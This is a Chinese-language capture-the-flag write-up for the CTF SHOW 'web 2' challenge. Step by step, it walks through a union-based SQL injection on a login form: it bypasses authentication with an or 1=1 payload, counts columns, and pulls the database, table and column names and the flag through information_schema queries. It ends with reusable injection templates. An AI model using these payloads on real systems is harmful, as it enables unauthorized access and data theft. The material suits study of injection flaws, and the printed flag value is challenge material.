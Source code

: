 
---



## CTF SHOW

### Web

##### web 2

常规的SQL注入 首先是一个登录框，一般遇到这种情况呢可以先抓包看看 随便输入账号密码 例如 账号admin 密码123456 抓包后，由于是post提交 可以在账号密码中拼接SQL语句 

**SQL注入思路**

 1.根据参数username和password推断为数据库查询，推测查询语句为 select  from user where username=? and password=?，所以用户名处填写 admin' or 1=1;#（#为注释，用于截断后续条件），验证通过，因此接下来查询数据库的信息，首先判断中间有几列，因为使用 UNION 的时候两个表的列数量必须相同，因此测试直到填写admin ' or 1=1 union select 1,2,3;#判断处有三列，根据返回的信息“欢迎你，ctfshow欢迎你，2”判断前端显示的是第2列内容。 

2.首先查询数据库名字 ，输入语句admin ' or 1=1 union select 1,database(),3;# 得到返回信息为“欢迎你，ctfshow欢迎你，web2，所以数据库名为web2。 

3.然后根据语句 admin ' or 1=1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='web2'),3;#。group_concat 是为了将查询结果连接成一个字符串输出，结果为“欢迎你，ctfshow欢迎你，flag,user”，因此我们得知有两个表为flag和user。 

4.接下来就是获取flag表格的列名，输入语句 admin' or 1=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name= 'flag' and table_schema='web2' ),3 #。根据结果“欢迎你，ctfshow欢迎你，flag”得出列名为flag 

5.最后获取flag，输入语句admin' or 1=1 union select 1,(select flag from flag limit 0,1 ),3 # （limit目的为获取第一行的值）获得结果“欢迎你，ctfshow欢迎你，ctfshow{b2faa05a-c4cc-4a5f-a58f-9391ebb19afa}”

**SQL注入查询顺序**：库名（schema_name）——表名(table_name)——字段名(column_name)

- 库名

```
SELECT * FROM users WHERE username='-1' or '1'='1' union SELECT 1,schema_name,2 FROM information_schema.schemata;-- ' AND password='$password';
```

- 表名

```
SELECT * FROM users WHERE username='-1' or '1'='1' union select 1,group_concat(table_name),2 from information_schema.tables where table_schema=database()-- ' AND password='$password';
```

- 字段名

```
SELECT * FROM users WHERE username='-1' or '1'='1' union select 1,group_concat(column_name),2 from information_schema.columns where table_schema=database()-- ' AND password='$password';
```



##### web3
